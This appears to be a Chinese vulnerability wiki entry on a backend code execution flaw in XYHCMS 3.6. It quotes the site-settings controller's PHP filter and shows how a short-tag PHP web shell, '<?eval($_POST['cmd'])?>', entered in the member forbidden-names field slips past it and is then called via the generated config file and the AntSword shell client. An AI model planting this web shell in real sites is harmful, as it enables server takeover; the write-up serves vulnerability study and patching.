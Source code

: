 XYHCMS 3.6 后台代码执行漏洞（二）
=================================

一、漏洞简介
------------

二、漏洞影响
------------

XYHCMS 3.6

三、复现过程
------------

### 漏洞分析

`/App/Manage/Controller/SystemController.class.php`

    public function site() {
            if (IS_POST) {
                $data = I('config', array(), 'trim');
                //<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>
                $preg_param = '/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>/is';
                foreach ($data as $key => $val) {
                    if (stripos($val, '<?php') !== false) {
                        $data[$key] = preg_replace('/<\?php(.+?)\?>/i', '', $val);
                    }
    ————————————————————————————————————————————————————————————————————————————
                    if (stripos($val, '<script') !== false && stripos($val, 'php') !== false) {
                        $data[$key] = preg_replace('/<script\s+language[\s=]+["\']*php["\']*[^>]*?\>.*?<\/script>/i', '', $val);
                    }
                    if (stripos($data[$key], '<?php') !== false || preg_match($preg_param, $data[$key])) {
                        $this->error('禁止输入php代码');
                    }
                }
                ————————————————————————————————————————————————————————————————————————————

### 漏洞复现

1.  进入后台

2.  系统设置-\>网站设置-\>会员配置-\>禁止使用的名称    ![1.png](/Users/aresx/Documents/VulWiki/.resource/XYHCMS3.6后台代码执行漏洞(二)/media/rId26.png){width="5.833333333333333in"
    height="2.553546587926509in"}

-   <?eval($_POST['cmd'])?>

3.  访问漏洞文件,蚁剑连接

-   `http://localhost/App/Runtime/Data/config/site.php`

    POST数据：`cmd=phpinfo();`
